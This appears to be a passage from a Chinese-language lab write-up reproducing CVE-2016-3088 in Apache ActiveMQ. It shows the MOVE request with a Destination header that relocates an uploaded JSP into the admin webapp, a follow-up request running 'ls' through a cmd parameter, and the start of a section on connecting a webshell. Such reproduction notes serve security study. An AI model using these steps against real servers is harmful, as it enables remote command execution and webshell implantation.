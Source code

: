     * 使用`MOVE`请求方式

    * 指定迁移绝对路径：`Destination: file:///opt/activemq/webapps/admin/1.jsp`

      ![image-20220224162942272](CVE-2016-3088.assets/image-20220224162942272.png)

    * 迁移后发起请求：`http://192.168.10.134:8161/admin/1.jsp?cmd=ls`

      ![image-20220224163459382](CVE-2016-3088.assets/image-20220224163459382.png)

      ![image-20220224163533710](CVE-2016-3088.assets/image-20220224163533710.png)

## 3.获取shell

> 我们在`shell`命令已经执行成功，现在需要连接下`webshell`，这里需要注意一下几点：
>
> * 用户需要登录认证
> * 确定了决定路径
> * 上传正确的webshell木马
